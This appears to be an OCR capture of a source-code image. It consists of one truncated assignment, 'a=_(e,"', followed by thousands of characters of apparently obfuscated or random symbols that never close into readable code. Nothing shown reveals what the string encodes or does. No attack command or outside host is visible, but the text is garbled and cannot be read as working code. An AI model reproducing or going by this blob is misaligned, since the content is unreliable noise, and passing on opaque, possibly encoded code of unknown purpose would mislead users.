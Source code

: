 a=_(e,"Xot&sef_Z42*H75/_tZ77toZe52Z52&i_f&{_**Z/&7st_f#2f5H&vZ5aostZHH2H*ss4/75t__ZHfH?t_sH4t7ZoH4:5Z&o__H:r5/7f*75oooef&H_&H_**f:ts54&HH7ofe2H2&tH_sHooBs7ZZ7/7Hts_5*V/f&HZl7/sZZ5Z/>Z_t2t/4&2&&2H%Zet2b77oZ_o*t/*/2eHZfHHotef5eo*__2f/5ss_H7odHs7f42s52&4_HH:rHeo4f7_o5ft2*/f&Z_HHo>-e2ZH7toZeH7(ts_o2569ssZtZ&o7e5ee*7t7_fHe/es54oHH7ftfft2Z55&t4}.4s&Zf74H7&*255o/vst_HHtIZsH2/o+f_2/2oo2_qHemts/444f5ettfZ25/t&/H77&o4s_*etZe*f2*Z/f&HZtHf&7Z27/7es&*f54/ZftZsH2o.esH&oHe52//f5/f_*Hc5e_Z572o5o/f77osfZeHizHeZ477f7*f/*f27&f_5H*o2e_4t545ft5Zo*2v%sfZ2/2s54555&offf*5ss*_57o)7o2ff2f5H&t5*&t_f*&/5&7oHZ&2Z55&s_Z5t&HZ5HZH7&*255o5e&&4_CHs*Zf7to5f&4H2o&e_H_&54stes*Ztle42f5/t5&ZZu7s+Het4Z7Hs4*o/s&e_f*2ooC&__7st7_0*s*tif&5ZsH2S5Ze5Jtse/2H555/efH/oesZ4G755s&7_A*f/HsG2SPse*s/H_oHfs2H27tfZtHHo2e_4t5*tH_e_sH2?lsfZH7#&t2*75tt_2*//ts4&7*fbHfo455*&e&tZ&*5=ss2Z5/Zet2t5to2_t*7/4s24Z4t5&o5fs2255e/45(Uet4v7tH/&7*Q5&/t&/_5HsY2s5*7o2f_e774/*&244HflHet4f3ffe2Z/t&J&o22!4ss2t7Zt&ftfo7f&*_/Htb7s2s*H&1_ssf5He/2sDZfH2&H4*7Ht/fs*_/5&tZ&_7/fsH2o75t*_e_tHH/5ssZ2H5&52f5_tt_ef47*&2_HHZoHete&HHt5fZ25/fs4sZ*T7so2fK2sos__*//Hs_&/27tTe&e_2ez4_5*7/Zss4<7e!5o&2_555ee**sHft24tH*oZfo2822/ts__5Hsy22e72s34f7soe&f24Hsots544/7sZ45f2**/f&HZtHft44*75t&f/27/<&*_ZHHH2o2ef4H5ttfZe/e&5Z77sHot/2t7e5s4t_j*f/HsnHeo_e74/5Z/e&!_f//&s4}Z7pHes2e7/&tfe*5Yt&2Z7Hsofe*2_75t7_4_4/ssfZ24t/Het2_5s&o_*Z/}es/s5*oose&2475&eZt2sk&ss4_HHo/ff425*ooZr*7oostet7*ose*25*at/_t*s/7etes7Zotf.2**toe_Z*_I7st445f Zf_2Z/*&cZ&H2/5s/_e5sto_e2f*tc&&5ZsH2%5f75&tffH257o&BZ*HGS/otft455st2f57Es4_HHWoZe74s4e57tH_5*Z/5ssZZ5*e_4t5sttt2*H2/o74aH&7to/e52s52t544/fsHZ/7to_o2fZ2f5H&t_f5LsZ4_Ze/&ff442Z/*&s_2H:ps_s7&ofe_45/s&__5_57/etZe4s5tt3ff2H/peo*HhHst4s77oett_o25/s&2_552eos_5(t_f52e5*/fs7ZtHZT5et*4t2fe*f/*s=ZZ_45Ze&4o72teff*_55/2sHZfHHotef**ttf&227*s&_HH2jHe54H2%5*tH_t*Z/HftHtose4eH*o5Zt5_s*Zt__H7&o#fo2H44deff25;esfZ/7H7st2fC2f5H&D40KtsfZoHfo/ooZ575&e_**ZMss74s4t5Po5fs2255e52o/h/7fZ*H//t!f/2H/t&Z_H5Hst4_7stof*e7*s/s&7ZBHf,HHeJ7srts_s*;/f&HZr5te*Z57tt2f/2f2_/5&5ZHH2o8ef42Y4_t2s24&_Z2*7HHtoeZ455stZZ2/4&fZ4HsoHO4_D5Zt5ft*H/4s_ss4Z7OofeH2.o)fZ+H&f4Z*57VH_&&4H5Httf7_f77utsZZ57tst4f54tefH*/*&&o&/Z7/off2e5atH_Z*7/f/*Z/7fH7s&4H25ot_2*&SWs4ZZ4t72&tff2H/t&f4fCZs/45Z*/efT*M5f&ZZo*4**t74M7*o5ts_t*w/f&HZ85te*Z57tt2f/2f*tbe&5ZsH2y5f/72t2f8*t/*&&&e2_G2ee4Z4557t2_8*f/2e4HHooess/*7&Nf&_tH4/5ssZ2H5tHeoHHt*fH*//ss_Z5Hto&{7Z_5ttHf2_fH*6tsZZ57t&/2254tsf/f75(sZZ77Zo/ef24/a55eH_2HjTfs2**oeeH2H4/t*_s*7/H/742H2ttoe2*/&&fZo*Z/He&Z2H/7of52f/_&ot/2t82eg4eHVoZeHe/7*/5&HZ7HZQ5es4Zbt_N2H/H&/ZZ_45_e2Z74H/2tZf5*s/Zf4H2p2e&4t5_74s&22/o&fZe7ncZu4Zt75tZ_f*&55s_ZZZ27_ofeH2t5fee*t{e&fZ_7s7tt_e52s52t545/ss4Zf7&o7./Z&5-&Zt_2ta&&7s*4q7/oHft2Z5Hef*r/5s4so2/tteefsHJ/a&f_HH;soZH7Hotfs275e/e_s*2HZt7457&o&s7*_H2hoZYH/Hfo_et4Z75ttZ752st&o2H67s_Z25&o2tf_4*t/Z&5Zt/tef2D72o*o7Z252&H_2_*/4otf&455st2f57 s4Z_H4otet2&**tsf/_tH_/5ssZ2H5st445f5s_ff4 &&7Z#Zo/2e72H*Z52&4_f*HRtsf*f>5f&245st/f5HS*5oes24#7fo2_Z5*tH_f*s*et_Zt72too&ZH/&tf_4*eHto0s54s72o52I/4tH_THZN7ssej2H7HttfZ2Hn2_7*5?Zsfs_2/o/e2*t/45*fsHgw2eZ4e70t4f2*&*tPZ&5ZsH2?5Z!7/tl_&2Z/*st_fH_HotZ4o5gttf7_rHH/HstZZHHtH4_72t?_s2H27o4_2Hto4e22&/+77e_Ht/tssZ2H/7ttoe52s52t54/FssHZHZ&/ofs4_2fo^&t_Z*5Ytfe72o/ff245t5&_5*//4&H4eHHtOo&*z5Z&o___o/4sts&7eoZfZ2/5ft*t7**/5eoZ2447/ttfZ25/s&2Z;*fs*et2f75tsf225tt_fH2oose4Z5st&e/fo7_&/ZtZs7so;ef4H51s7*e/Z&4_2*5oeA_Z&45/Bt2_W*f/2eHH/oZs74Z54tYtoZ/gt&ess4&7aofeH2!oR_t*5///ef&7fy4oZff2s52&m_s7/&H4eZ&/ofs4_2f/_&t_Z*5Utff7so2e544755&eoHs/_uffs4t7Zo5ftH&t2fH*e8&efs&*HoZf&252oo4_tH_?*sZZ_5Qtefx2H/o/sstZpHf;HeM2/tte*e/H7s!_&Zt7ox5es4275s5*E/&s?&&2*}7sHef*55ttZf5*to_ZsHZouV__e7soHf2fe*&o_ZHH*zfet455&oHto*e/H/&f4Ht7s&Z2}74tff/25*ZWIf2ZH7toZeH7o7/e2*4/2s7Zt7eoHel2o4*54s7HtYo&HZZ7so4ete_5*&tt44//ZM2f57fl/eH2e5s55&fZfHtMZs54t3of547/-&5t74*S5soe!2e7HttfZ2Ho4_5He**s24*Z7t_f*2g54&s_/*5HZo2es425;tsZe/f&2_s*7xZsZs**4tHe/f5H&/2s8ZfH2&22o5Zo7o/Z/{A&5Z__7/ts*4o555fe&_t*Z/5st2oooe2244_G&_e*5/Zs4Z5Zo/7o/e&2oMe_2*4/ss{ZH7on2u/2&525oe_*vHttfZ5H_ose74H2f55s&_2Hcdfs2*_oees2_/&&s_Z_o77sH4eHHosfZffH//t&Z_5Ht&4457totf42o5Z54feZ_**h4f75ttoeH2Z/s&4_t__N*ets4*/oZt2Z5/ft/_HHejs,5ef*&5ttZf5*toLZ&Hsc5sHs7Hft7_o25/f&f&_*G;Hef2s5ooH_e*f///5sHZ27{ofe2H/tof5253os4sHZH5*oZe52s5Zsf*4/2ssZtZ&/He*4f55t4_A**/2/4_tH5oZff2&75&__ZHoHpo4sH4t7ZoH_H55&&_/H&1fs4ZZZ4o&fse*7st2_/*HR4e&e}257HttfZ2H02_7*5bZsfs_*YtefZ*t/Z&2Z_*HL/j&f77so*fT2//2&t&54oH2o^ef4202f22s/H&_&e2/b4e}4*72tHt2_2*f/HstZf5*ft4/72t7toZ/jt&ess4&7KofeH2,E&f/*Z//se_HZo74oZ_t2s52&I_sgesu4oHso_fo4f5ttft_2t}ost4eH2o7fs4Z5455sf_2HlYfs224o4fZ454/oo_2*sIto_s&**oZf*4H57&2&2_5HsI5e94f7HZs5otte4&22sHfzHet4fxff42s52t/&o4/otses4H_7et&Z_/H&*_fHtu5e&ZH4otefHf&74&tss2Zods44f7/o5tZ_wHo/HstZZHHt*4s72o5_d*e27o*Z5Ho7W&seH2t5ZtHZ5B_&2_57fo*s52e445_s*HD//&2Zf7to_eyeeH*ts&f42-t&*ZZ7oo}o2ft**55&s_2*5t5f57ftoft2*5t&5f5*7/H/7_0H2tZe72B55/tsZ_5Hs%2s5*ot&fH2f/_&Ht/2H/He&447fttf**t*w)U&HZtHZNHf*5soff42Z2_oeZZ**H2o2ef4H5ttf4f}t&7_57&Hot/2t7e5s&*_q*f/Hsc*^oZe*2e75&oft*&27tfZ7H5o_es4f525Zs4_s*2AKss2fo/et4f55&&ff*7*ot2Zn7eote/244*+ZZU*2*&teZsHfotff4H2Z/f&s_2Hc)sf/HZtto&Zo/st_&fZeHt;Zs54t/5f_2s/n&ee4*H/*O2e*4f7HttffHZ&d_f_e5is54_7ftee5f2H_/f&HZtHfte457Ztoe/fo5Z57eeHZh8e4s*Hstlf2*Z/e&CZ4H2o&otfo455st2f575osf__77fo4e/275fsZ_t*Z/5st2t?feZ4f54o5t&47/5sHZ,7&H_&o4Z7/ts_&*5/f/_f/HZi*e52_545H&*_Z*5FssZ*/oEf&f_47q*_5*oHJoIsH4t7ZoH_5/_t2f5HfK*sts&4H72&nff2H/t&f4e^*s54m7 o/o__//t&__sHZ**t2_74Z57tsf2*%/setHeAfe
